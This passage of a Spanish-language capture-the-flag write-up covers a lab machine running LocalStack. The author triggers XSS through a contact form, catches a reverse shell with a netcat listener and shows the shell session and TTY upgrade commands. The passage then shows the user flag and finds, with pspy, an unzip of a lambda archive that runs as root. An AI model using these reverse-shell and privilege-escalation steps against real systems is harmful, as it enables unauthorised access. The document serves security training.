 Envío la petición de la sección de contacto para que se acontezca el XSS y al rato obtengo recibo la conexión en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.112] 35192
bash: cannot set terminal process group (21): Not a tty
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
bash-5.0$ script /dev/null -c bash
script /dev/null -c bash
bash: script: command not found
bash-5.0$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

Me cambio a una ```sh``` ya que la bash entra en conflicto. Estoy dentro de un contenedor

```null
/opt/code/localstack $ ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:6234 errors:0 dropped:0 overruns:0 frame:0
          TX packets:5220 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:524621 (512.3 KiB)  TX bytes:5516271 (5.2 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:8454 errors:0 dropped:0 overruns:0 frame:0
          TX packets:8454 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1059311 (1.0 MiB)  TX bytes:1059311 (1.0 MiB)
```

Puedo ver la primera flag

```null
~ $ cat user.txt 
342a334294be29e200fb30783206754e
```

# Escalada

Subo el ```pspy``` para detectar tareas que se ejecutan a intervalos regulares de tiempo. Creo de nuevo la función lambda y veo el comando que ejecuta ```root```

```null
2023/06/16 10:24:22 CMD: UID=0    PID=1473   | /bin/sh -c cd /tmp/localstack/zipfile.43027463; unzip -o -q /tmp/localstack/zipfile.43027463/original_lambda_archive.zip 
```
